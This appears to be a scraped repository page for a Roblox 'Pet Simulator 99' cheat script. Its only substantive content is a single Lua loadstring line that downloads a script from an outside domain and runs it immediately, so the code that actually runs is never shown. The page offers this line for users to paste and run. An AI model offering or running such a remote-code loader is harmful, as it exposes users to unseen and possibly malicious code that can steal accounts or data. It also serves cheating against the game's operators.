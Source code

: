 # Dino-Update-Ps99



loadstring(game:HttpGet("https://egorikusa.space/49d33c1665a0dd0e8e509309.lua", true))()
